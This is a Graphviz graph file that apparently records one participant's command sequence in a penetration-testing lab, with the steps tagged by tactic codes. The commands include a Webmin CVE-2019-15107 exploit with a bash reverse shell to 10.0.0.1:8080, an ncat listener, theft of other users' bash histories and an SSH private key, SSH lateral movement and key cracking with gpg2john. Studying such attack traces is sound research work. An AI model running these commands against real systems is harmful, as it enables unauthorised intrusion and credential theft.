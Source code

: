 // creating graph for user: 66
digraph {
	node [shape=box]
	2 [label="nmap A0 A1 "]
	3 [label="nmap A0 A1 "]
	5 [label="nmap -h A0 A1 "]
	10 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	11 [label="ls A10 "]
	12 [label="ls -la A10 "]
	19 [label="ls A10 "]
	21 [label="ls A10 "]
	22 [label="python CVE_2019_15107.py https://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	23 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	24 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	25 [label="sudo apt install ncat A1 A9 A11 A12 A17 "]
	26 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	27 [label="ncat -i 8080 A1 A9 A11 A12 A17 "]
	28 [label="ncat -l 8080 A1 A9 A11 A12 A17 "]
	29 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'bash -i >& /dev/tcp/10.0.0.1/8080 0>&1' A13 "]
	30 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'id' A13 "]
	31 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat ./.bash_history' M11 "]
	32 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/eva/.bash_history' M11 "]
	33 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/bob/.bash_history' M11 "]
	34 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat home/debian/.bash_history' M11 "]
	35 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls home/debian/' A10 A13 "]
	36 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/debian/' A10 A13 "]
	37 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la' A10 A13 "]
	38 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls' A10 A13 "]
	61 [label="save_user.cgi A4 "]
	67 [label="useradmin_update.pl A4 "]
	69 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd /home ; ls -la' A10 A13 "]
	73 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cd / ; ls -la' A10 A13 "]
	74 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home' A10 A13 "]
	75 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/alice' A10 A13 "]
	76 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/alice' A10 A13 "]
	77 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/debian' A10 A13 "]
	78 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	79 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' M11 "]
	83 [label="cat /etc/services M1 "]
	84 [label="less /etc/services A9 A11 A12 A17 "]
	85 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/bob/.bash_history' M11 "]
	86 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	87 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' M11 "]
	88 [label="ssh 10.1.18.22 A16 "]
	89 [label="ssh 10.1.17.4 A16 "]
	90 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ssh eve@10.1.17.4' M16 "]
	91 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	92 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' M10 "]
	93 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh' A1 A9 A11 A12 A13 A16 A17 "]
	94 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.bash_history' M11 "]
	95 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls /home/eve/' M10 "]
	96 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/bob' A10 A13 "]
	97 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve' M10 "]
	98 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'ls -la /home/eve/.ssh/' M10 "]
	99 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa' M12 "]
	102 [label="python CVE_2019_15107.py http://172.18.1.5:10000 'cat /home/eve/.ssh/id_rsa.pub' M12 "]
	105 [label="ssh eve@10.1.17.4 M16 "]
	107 [label="ls A10 "]
	108 [label="cd .ssh A16 "]
	109 [label="ls A10 "]
	110 [label="ls -la A10 "]
	111 [label="chmod 600 id_rsa M15 "]
	112 [label="ls -la A10 "]
	113 [label="ssh eve@10.1.17.4 M16 "]
	114 [label="gpg2john id_rsa A14 "]
	0 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 5 [constraint=false]
	5 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 19 [constraint=false]
	19 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 61 [constraint=false]
	61 -> 67 [constraint=false]
	67 -> 69 [constraint=false]
	69 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 102 [constraint=false]
	102 -> 105 [constraint=false]
	105 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	rankdir=LR
}
